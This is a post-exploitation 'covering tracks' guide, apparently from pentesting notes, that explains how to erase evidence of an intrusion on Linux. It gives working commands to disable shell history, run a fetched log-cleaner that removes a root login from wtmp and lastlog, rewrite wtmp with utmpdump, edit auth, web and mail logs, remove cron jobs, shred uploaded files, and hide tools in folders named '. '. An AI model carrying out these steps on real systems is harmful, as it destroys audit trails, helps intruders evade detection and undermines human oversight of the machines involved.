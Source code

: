 # ⭕ Covering Tracks

## <mark style="color:red;">Tools</mark>



## <mark style="color:red;">Login Events</mark>

`/var/log/auth.log` This is where are the activity and login's are stored, including failed attempted login's\
`/var/log/lastlog` Contents of accounts, port, and last login date & time.\
`/var/log/wtmp` Records all logins and logouts.

## <mark style="color:red;">Shell History</mark>

The shell history can be found in the home directory of a specific user, if you logged in as root, then in /root.\
They have a dot behind the file name, meaning they are "hidden" by executing `ls -la` you will see all the files including file permissions, who this file belogs to, the size of it , date and time.

`.sh_historycsh`\
`.historyksh`\
`.sh_historybash`\
`.bash_history`\
`.history`

\
As soon as you logged in your first command should be: `unset HISTFILE HISTSAVE HISTMOVE HISTZONE HISTORY HISTLOG USERHST REMOTEHOST REMOTEUSER;export HISTSIZE=0`\
Which will unset all the variables in question so you don't leave any shell history behind from that point onwards and therefore you wouldn't need to remove or touch .bash\_history at all.

## <mark style="color:red;">**Command History**</mark>

`HISTFILE` Provides the location of the command buffer file.\
`HISTSIZE` Number of lines to be kept in the command history buffer.\
`HISTSAVE` Determines whether the command history should be saved on disk or not.

## <mark style="color:red;">**Temp Files**</mark>

`/tmp/`\
`/var/tmp/`\
If you have compiled something, or used a tool that creates temporary files, make sure you visit these folders and remove any of YOUR leftovers.

Note: The /var/tmp directory is made available for programs that require temporary files or directories that are preserved between system reboots. Therefore, data stored in /var/tmp is more persistent than data in /tmp

## <mark style="color:red;">**Sys Log**</mark>

`/etc/syslog` is a protocol for tracking and logging system messages\
`/etc/kern.log` kernel logs information and also dmesg (diagnostic message)

These are more if you are doing major changes to the system, I wouldn't worry about them but I am informing you just in case.

## <mark style="color:red;">**Other files of interest**</mark>

`/var/log/mail.log` If you send an email from within the system\
`/var/log/dpkg.log` If you have installed something on the system\
These are log files that are easily editable with any editor, you can just remove your activity.\
`/var/log/nginx/access.log`\
`/var/log/apache2/access.log`\
Quick scenario, you accessed a machine, through a web app vulnerability, so you executed some kind of RCE exploit or uploaded a webshell..either way your ip address and all the GET/POST requests will be in those files, consider checking those aswell.\
`/home/USER/.ssh/known_hosts`\
`/home/USER/.ssh/authorized_keys`\
`/root/.ssh/known_hosts`\
`/root/.ssh/authorized_keys`\
Also consider thinking about this, Have you made a connection from this machine to another one? Have you used an authorized\_key for logging without passwords?\
Have you used the browser? Clear the history of your activity.

## <mark style="color:red;">**Cron**</mark>

`/var/spool/cron/crontabs` # crontab -l to view the Crontab\
If you have set up some tasks to autorun, `crontab -r`

Now let's talk about tools, I personally don't know One that will fit all the scenarios and all the different distributions.

If you upload tools make sure not to use a common folder like the home, find a place like `/dev/shm` or you could consider making a hidden folder, often you will not be found if you use a folder name like `". "` or `" "`

Quick scenario: I just logged in a SSH, Here I am making sure that I don't leave any shell history from my activity and I will use a tool called mig-logcleaner to remove my log in entry from wtmp and lastlog.\
This is just for PoC, I know I used git, you may not have git installed, you can always clone/compile/ elsewhere and upload the binary on your own web server or just upload it from your PC via a SCP software (e.g winSCP)

Oneliner:

```bash
unset HISTFILE HISTSAVE HISTMOVE HISTZONE HISTORY HISTLOG USERHST REMOTEHOST REMOTEUSER;export HISTSIZE=0;cd /dev/shm;git clone https://github.com/Kabot/mig-logcleaner-resurrected.git;cd mig*;make linux;./mig-logcleaner -u root;cd ..;rm -rf mig*
```

However, if you'd rather go the manual route and with less tooling give this a go, utmpdump works great for this and is installed by default, this will remove the wtmp entry.\
See example below

```bash
utmpdump /var/log/wtmp | grep -v "tty1" > temp.txt
utmpdump -r < temp.txt > /var/log/wtmp
rm -f temp.txt
```

Why is this better than just doing rm -rf /var/log/auth.log; touch /var/log/auth.log and the same for .bash\_history? Well by now I would hope that we are on the same page with the fact that it would be very suspicious if all your logs were gone. If the logs are needing checked (lastlog for example) there should be previous activity recorded because we don't want to tamper too much with the logs.

If you upload other files and want to remove them permanently, here are some other tools that I recommend.

Shred, installed by default.

```bash
shred -zxuvf fileName
```

BashCopy

\-z, --zero     add a final overwrite with zeros to hide shredding\
\-x, --exact    do not round file sizes up to the next full block; this is the default for non-regular files\
\-u  deallocate and remove file after overwriting\
\-v, --verbose  show progress\
\-n, --iterations=N  overwrite N times instead of the default (3)

```bash
wipe fileName
wipe -r dirName
```

Another similar tool:\
Wipe, this tool repeatedly overwrites special patterns to the files to be destroyed. You can remove the contents of a single file, folder, or even the entire disk. This tool needs to be installed.

Shred renames a files to 0's many times and at the end deletes it

\
A few other command line tricks\
`sudo lsof | grep .log` check for currently open and active log files\
`sudo find / -cmin 0 -print` find recent documents on the system













